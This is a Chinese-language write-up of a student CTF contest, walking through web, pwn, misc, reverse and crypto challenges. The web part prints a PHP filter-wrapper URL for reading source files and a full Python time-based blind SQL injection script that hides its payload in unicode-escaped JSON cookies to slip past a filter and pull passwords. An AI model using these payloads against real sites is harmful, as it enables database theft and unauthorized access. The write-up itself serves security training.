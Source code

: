 ## Writeup For Trinity CTF 2nd

### Web

#### flag宝典

这题一共有10000个页面，但是后台通过检查referer来判断是不是一页一页地读。通过burpsuite重放就能发现是改referer了（因为同样的包发到相邻的页面有响应，发到不相邻的页面有报错，删去referer直接报错并跳回首页）。接下来就是猜有几页的问题……好吧 我应该提示一下大家一共有几页的，但看不少人猜到了我就不放提示了

```
Note: 如果你想自己搭建这个题目，需要将服务器的默认策略修改。参见：

sudo sed -i 's/\/var\/www\/html/\/var\/www\/html\/index.php/'  /etc/apache2/sites_available/000-default.conf

echo -e "<Directory /var/www/html/flag_book>\n\tRequire host 127.0.0.1\n</Directory>" >> /etc/apache2/apache2.conf
```

#### flag宝典2

这题是上一题的文件换层皮。写过爬虫的都知道，互联网中有一个“君子协定”，即`robots.txt`，这里写明了不允许爬虫爬的页面，有时候这里包含了敏感信息等。用Disallow来标识这些页面。或者你也可以用burpsuite的spider功能发现robots.txt页面。

然后从robots.txt中得到提示，下载index.phps文件。得到提示后发现不能直接读取flag内容，否则会给你`no flag here`的提示。但是可以用PHP伪协议绕过，将flag.php内容进行base64编码后即可。

```
http://210.28.133.37:10081/php://filter/read=convert.base64-encode/resource=flag.php
```

这题同样需要将`000-deault.conf`的默认配置改为`index.php`，参见上题

#### 六脉神剑

这题来自HCTF 2018 kzone

突破口是使用御剑或其他的目录扫描工具把网站的源码备份`www.zip`下载下来。在实际部署中，是有很多开发者忘记将这个文件删除的。

得到源码后，进行审计。可以发现所有的我们能决定的输入都经过了`safe.php`，只有一处例外，也就是`member.php`，在此处的cookie是经过防火墙后再json decode后才查数据库的，我们可以在此处做文章，用json decode的特性绕过防火墙，然后进行时间盲注。

以下是测试的时候用的攻击代码，emmm 有许多注释的地方，因为懒得为每一个攻击阶段写函数了。

```
import requests

import time
from requests.cookies import RequestsCookieJar

sleep_time = 1
error_time = 0.5


def getpayload(index,position,guess):
	cookie = {
			#"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/passw\u006frd/**/from/**/fish_admin/**/limit/**/0,1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(3),0)\u0023","admin_pass":"9306270da3f08efeea003b7247d3acd9443fdc0f"}'''
			#, "islogin":"1" 
			#"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/username/**/from/**/fish_admin/**/limit/**/0,1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(3),0)\u0023","admin_pass":"9306270da3f08efeea003b7247d3acd9443fdc0f"}'''
			"islogin":"1" ,
			#"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/name/**/from/**/fish_admin/**/limit/**/0,1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(3),0)\u0023","admin_pass":"9306270da3f08efeea003b7247d3acd9443fdc0f"}''', "islogin":"1" ,
			#"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/group_concat(table_name)/**/from/**/inf\u006frmation_schema.tables/**/where/**/table_schema\u003d'TrinityFTC'/**/limit/**/'''+str(index)+r''',1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(1),0)\u0023","admin_pass":""}''',
			#"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/group_concat(table_name)/**/from/**/inf\u006frmation_schema.tables/**/where/**/table_schema\u003d'hctf_kouzone'/**/limit/**/'''+str(index)+r''',1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(3),0)\u0023","admin_pass":""}''',
			#"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/group_concat(column_name)/**/from/**/inf\u006frmation_schema.columns/**/where/**/table_name\u003d'I_love_CTF'/**/limit/**/'''+str(index)+r''',1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(1),0)\u0023","admin_pass":""}''',
			"login_data":r'''{"admin_user":"1'/**/\u006fr/**/\u0069f(asci\u0069(sub\u0073tr((select/**/group_concat(passw\u006frd)/**/from/**/I_love_CTF/**/limit/**/'''+str(index)+r''',1),'''+ str(position) + r''',1))\u003d'''+ str(guess) +r''',\u0073leep(1),0)\u0023","admin_pass":""}''',
			#"islogin":"1" ,
			#"PHPSESSID":"jve3hsp7vtaaj8amil6p34nvo7"}
			}
	#print(cookie)
	#print("pos:%d,gues:%d" %(position,guess))
	return cookie

allflag= []
flag= ''
def Go():
	url = r"http://210.28.133.37:10082/include/common.php"
	global flag ,allflag
	for index in range(1):
		for pos in range(1,256):
			got_something = False
			for char in range(0x20,0x7f):
				payload = getpayload(index ,pos,char) 
				beforetime = time.time()
				r = requests.get(url , cookies=payload)
				endtime = time.time()
				use_time = endtime - beforetime
				#print(r.text)
				if abs(use_time) > sleep_time  :
					flag += chr(char)
					print("flag:%s" % flag)
					got_something = True
					break 
				else :
					pass
			if not got_something:
				break
		allflag.append(flag)
		flag = ''


if __name__ == "__main__":
	try:
		Go()
	except Exception:
		print(allflag)
	print(allflag) 

```

Note: 上述是HCTF的非预期解。预期解是依赖于MySQL新版本的保存信息的表(innodb_table_stats,innodb_index_stats)不含关键字`or`的特性。详见[官方writeup](https://bysec.io/hctf/writeup.html)

### Pwn

#### Babypwn
通过`ida`分析可以发现程序存在栈溢出和格式化字符串漏洞，最简单的方法是直接用格式化字符串`leak`出`secret`然后就`get shell`.又或者用格式化字符串把`canary`和程序的基地址`leak`出来后做`ROP`

#### 初入江湖
整数溢出，只要自己的hp不刚好为0就不会死亡，战胜对面拿到shell

#### 葵花宝典
对数组下标检查时忽略了负数范围，通过全局数组的下标下溢改写got表使close函数无效，拿到flag

### Misc

#### Babymisc
这属于这场比赛的签到题，根据提示我们知道这个是用`Asciidots`写的脚本，我们去找到这个语言，看看语法，就可以发现其实脚本里面的每一个字母的作用都是打印出一个字符的`ascii`值，连起来就是`flag`.直接运行的话打出来的字符是乱序的，这个和解释器解析脚本的方法有关。

### Reverse

#### Babyre
给了一个文本文件，里面是汇编代码，直接编译成二进制文件然后用`ida`分析即可

#### Babyre2
和作业题是一样的思路。`main`函数被简单的加密了。详情看题目的源代码即可。

#### 真假秘籍
在NormalFunction中改写了check程序的逻辑，将xor 0x11改为了xor 0x7e，知道这个之后就能写脚本跑出flag了

### Crypto
#### yafu
简单的题目。安装yafu即可，百度也能搜索到yafu的使用方法。直接暴力破解这个大数，然后使用gmpy2将密文解密即可
